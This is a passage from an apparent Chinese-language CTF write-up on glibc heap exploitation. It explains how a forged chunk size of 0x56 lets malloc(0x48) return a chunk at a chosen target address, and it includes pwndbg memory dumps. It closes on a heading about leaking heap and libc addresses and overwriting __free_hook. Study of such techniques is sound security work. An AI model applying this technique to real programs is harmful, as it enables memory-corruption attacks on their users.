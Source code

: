 #### 4.分配到目标地址

malloc(0x48)  。#chunk2_ptr

  当unsorted bin遍历到倒数第2个块时，实际上在判断目标地址那个块，此时目标地址处的size已经被写成了0x55/0x56，而申请的size恰好符合。所以刚好申请到目标地址这个块。

  注意：必须目标地址的size==0x56，否则以下检查会出错。

{% highlight c %}
    3436    mem = _int_malloc (av, sz);
    3437  
    3438    assert (!mem || chunk_is_mmapped (mem2chunk (mem)) ||
    3439            av == arena_for_chunk (mem2chunk (mem)));
{% endhighlight%}
可以看到目标地址处的情况：

{% highlight c %}
    pwndbg> x /30xg 0x00000000133707e0-0x10
    0x133707d0: 0x0000000000000000  0x0000000000000000
    0x133707e0: 0x2108d1a060000000  0x0000000000000056
    0x133707f0: 0x00007f0347c40b78  0x0000562108d1a060
    0x13370800: 0xd9140e94ea7ca2f1  0x13eb99db94f91fe8
    0x13370810: 0xecb34aaa36d5fb94  0xecb34aaa36d5fb94
    0x13370820: 0xd91458b5e2ad02e1  0x13eb99db94f91ff0
    0x13370830: 0xd91458b5e2ad02c1  0x13eb99db94f91fd1
    0x13370840: 0xd9140e94f94ba501  0x13eb99db94f91fa0
    0x13370850: 0xd91458b5e2ad0791  0x13eb99db94f91ff0
    0x13370860: 0xd91458b5e2ad0771  0x13eb99db94f91fa0
    0x13370870: 0xd9140e94ea7ca2f1  0x13eb99db94f91fe8
    0x13370880: 0xd91458b5e2ad0841  0x13eb99db94f91ff0
    0x13370890: 0xd91458b5e2ad02a1  0x13eb99db94f91b30
    0x133708a0: 0xd91458b5e2ad0751  0x13eb99db94f91b30
    0x133708b0: 0xd9140e94ea7ca2f1  0x13eb99db94f91fe8
    unsortedbin
    all: 0x562108d1a060 ◂— 0x7f0347c40b78
    smallbins
    empty
    largebins
    0x4c0: 0x562108d1a5c0 ◂— 0x0
    pwndbg> x /6xg 0x562108d1a060
    0x562108d1a060: 0x0000000000000000  0x00000000000004f1
    0x562108d1a070: 0x00007f0347c40b78  0x00000000133707e8
    0x562108d1a080: 0x0000562108d1a5c0  0x00000000133707c3
    pwndbg> x /6xg 0x562108d1a5c0
    0x562108d1a5c0: 0x0000000000000000  0x00000000000004e1
    0x562108d1a5d0: 0x0000000000000000  0x0000562108d1a060
    0x562108d1a5e0: 0x0000000000000000  0x0000562108d1a060
{% endhighlight%}


#### 5.泄露heap、libc  &  修改free_hook

  接下来的过程就顺理成章了。
